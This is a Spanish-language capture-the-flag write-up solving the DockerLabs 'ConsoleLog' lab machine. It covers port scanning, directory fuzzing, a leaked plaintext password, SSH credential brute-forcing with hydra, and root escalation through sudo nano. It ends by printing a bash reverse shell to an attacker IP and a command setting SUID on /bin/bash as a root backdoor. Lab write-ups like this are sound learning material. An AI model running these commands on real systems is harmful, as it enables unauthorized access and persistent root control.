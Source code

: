 # Console Log

En esta lectura se documentara el paso a paso para resolver la maquina ConsoleLog de la plataforma DockerLabs

![image.png](Console%20Log/image.png)

**Descargamos y desplegamos :** 

![image.png](Console%20Log/image%201.png)

Con ping comprobamos que la misma esta activa, el TTL de 64 nos indica que es una maquina Linux : 

![image.png](Console%20Log/image%202.png)

## Enumeración

Realizamos un escaneo con Nmap utilizando un Syn Scan, el cual es más rápido y discreto en entornos reales debido a que no completa el saludo de tres vías. Esto nos permite detectar puertos abiertos de manera eficiente sin establecer conexiones completas, reduciendo así la probabilidad de ser detectados.

```bash
nmap -sS -p- --open -Pn -n --min-rate=5000 172.17.0.2
```

Encontramos abiertos los siguientes puertos : 

![image.png](Console%20Log/image%203.png)

Realizamos un nuevo escaneo con Nmap, esta vez enfocado únicamente en los puertos abiertos y utilizando el parámetro `-A`. Este parámetro ejecuta un conjunto de scripts de Nmap que permite identificar las versiones de los servicios y del sistema operativo en ejecución.

```bash
nmap -A -p 80,3000,5000 -Pn -n 172.17.0.2
```

![image.png](Console%20Log/image%204.png)

Notamos que los primeros son dos paginas web http y el ultimo es ssh pero en un puerto no estándar

Consultamos a la herramienta **`whatweb`** para ver con que tecnologías esta diseñada la web.

```bash
whatweb http::172.17.0.2
```

![image.png](Console%20Log/image%205.png)

Vamos a ingresar al puerto 80 haber que encontramos : 

![image.png](Console%20Log/image%206.png)

## Explotación

Al ver el código fuente de este sitio, descubrimos un archivo “js” con un token, lo que podría tratarse de una vulnerabilidad a mitigar o informar si esto fuese un caso real al tratarse de data sensible expuesta.

![image.png](Console%20Log/image%207.png)

Al revisar este archivo vemos la siguiente información que nos podría llegar a ser útil, por lo que la guardaremos.

![image.png](Console%20Log/image%208.png)

Ingresamos al segundo puerto abierto para visualizar su contenido pero de momento no es posible acceder:

![image.png](Console%20Log/image%209.png)

Al hacer fuzzing encontramos el directorio backend con archivos útiles. Para esto use la herramienta `gobuster`.

**Gobuster** es una herramienta de fuerza bruta utilizada para descubrir directorios, archivos, subdominios, y hosts virtuales ocultos en un servidor web. Funciona utilizando una lista de palabras (wordlist) para realizar solicitudes repetidas al servidor, lo que permite identificar recursos no visibles o no indexados.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![image.png](Console%20Log/image%2010.png)

De estos directorios encontrados con ese diccionario vamos a revisar `/backend` que parece el mas interesante.

![image.png](Console%20Log/image%2011.png)

Encontramos este server.js que me da mucha curiosidad…

![image.png](Console%20Log/image%2012.png)

esa contraseña en texto plano ahí ubicada es muy rara, tenemos un puerto con ssh abierto por lo que vamos a intentar averiguar con hydra si algún usuario la esta utilizando :

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p password ssh://172.17.0.2:5000 -t 64
```

![image.png](Console%20Log/image%2013.png)

Encontramos al usuario lovely con la contraseña conseguida porque estaba expuesta en texto plano, por lo que nos conectamos mediante ssh al puerto indicado en el escaneo.

```bash
ssh lovely@172.17.0.2 -p 5000
```

![image.png](Console%20Log/image%2014.png)

## Post - explotación / Escalada de privilegios

Realizamos la escalada privilegios, vamos a enumerar los permisos de sudo que tiene el usuario actual, esto lo hacemos con `sudo -l`
El comando `sudo -l` se utiliza para listar los privilegios de `sudo` que tiene el usuario actual.

![image.png](Console%20Log/image%2015.png)

Descubrimos que tiene permisos de sudo para nano por lo que vamos a buscar el en sitio “[https://gtfobins.github.io/](https://gtfobins.github.io/)” si hay una manera de escalar a root con nano.

![image.png](Console%20Log/image%2016.png)

Encontramos esta manera que al ejecutarla nos permite ejecutar comandos como root pero de una manera un poco incomoda…

![image.png](Console%20Log/image%2017.png)

Una vez obtenida de esta manera una consola inestable de root tenemos dos opciones: 

La primera cambiarle los permiso a la bash con **`chmod u+s /bin/bash`**para que
 establecer el bit SUID (Set User ID) en el archivo `/bin/bash`. Esto sirve para que ue cuando cualquier usuario ejecuta el archivo `/bin/bash`, el proceso que se crea tiene los privilegios del propietario del archivo, que en este caso es típicamente el usuario root. Así, cualquier usuario que ejecute `/bin/bash` obtendría una shell con privilegios de root.

![image.png](Console%20Log/image%2018.png)

Probamos ejecutar una bash de root con el usuario lovely y vemos que es posible.
![image.png](Console%20Log/image%2019.png)

La segunda es mandar una **shell** reversa a un puerto de nuestra maquina atacante y ponernos en escucha con netcat a dicho puerto.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.0.203/444 0>&1'
```

![image.png](Console%20Log/image%2020.png)

Desde nuestra maquina atacante usamos

```bash
nc -nlvp 444
```

**Esta es otra alternativa  pero se considera mas estable la primera.**

![image.png](Console%20Log/image%2021.png)

**PWNED**!!!

<aside>
💡 Muchas gracias por leer, este es mi primer WriteUp para la plataforma DockerLabs, estaré subiendo mas en estos días, mientras busco seguir aprendiendo.

</aside>

**Saludos!!!**
